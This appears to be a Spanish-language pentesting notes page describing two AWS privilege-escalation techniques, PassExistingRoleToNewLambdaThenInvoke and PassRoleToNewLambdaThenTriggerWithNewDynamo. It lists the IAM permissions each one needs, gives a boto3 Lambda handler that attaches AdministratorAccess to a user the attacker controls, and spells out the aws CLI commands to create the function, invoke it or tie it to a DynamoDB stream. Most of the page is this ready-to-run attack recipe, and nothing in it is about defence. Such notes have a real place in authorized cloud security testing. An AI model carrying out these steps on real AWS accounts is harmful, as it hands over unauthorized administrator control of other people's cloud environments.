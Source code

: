# PassExistingRoleToNewLambdaThenInvoke
Un atacante puede escalar privilegios pasando un rol existente de IAM a una nueva función lambda destinada a realizar acciones de su elección.

#### Permisos requeridos

- iam:PassRole
- lambda:CreateFunction
- lambda:InvokeFunction

### Ejecución

1) Creamos una función lambda que asigne a un usuario sobre el que tengamos control privilegios de amdmin.


        import boto3
        def lambda_handler(event, context):
          client = boto3.client('iam')
          response = client.attach_user_policy(UserName='<user>', PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess')
          return response

2) Comprimimos el archivo
3) Creamos la lambda

        aws lambda create-function --function-name privesc --runtime python3.6 --role <rol_privilegiado> --handler code.lambda_handler --zip-file fileb://function.zip --region us-east-2 --profile <profile>

4) Invocamos la lambda

        aws lambda invoke --function-name privesc output.txt --region us-east-2 --profile <profile>


---

# PassRoleToNewLambdaThenTriggerWithNewDynamo

A diferencia del caso anterior, un usuario que pueda crear una lambda pero no invocarla, puede aprovechar permisos para mapear la lambda a un evento en dynamodb para que se ejecute la lambda.

#### Permisos requeridos

- iam:PassRole
- lambda:CreateFunction
- lambda:CreateEventSourceMapping


### Ejecución:

1) Creamos la lambda

        import boto3
        def lambda_handler(event, context):
          client = boto3.client('iam')
          response = client.attach_user_policy(UserName='<user>', PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess')
          return response

2) Comprimimos la función
3) subimos la lambda

        aws lambda create-function --function-name privesc --runtime python3.6 --role <rol_privilegiado> --handler code.lambda_handler --zip-file fileb://function.zip --region us-east-2 --profile <profile>

4) Mapeamos la lambda con un evento específico.

   - Tomamos el arn del flujo más reciente de la dynamodb. Este se encuentra en Dynamodb > tablas > <tabla> > exportaciones y flujos.
   - Creamos el mapeo
  
          aws lambda create-event-source-mapping --function-name privesc --event-source-arn <arn_flujo> --enabled --starting-position LATEST --region us-east-1 --profile <profile>
  
5) Si tenemos un usuario que puede cargar datos en la dynamodb (dynamodb:PutItem) podemos hacer un registro en la DB o esperamos que otro usuario lo realice.



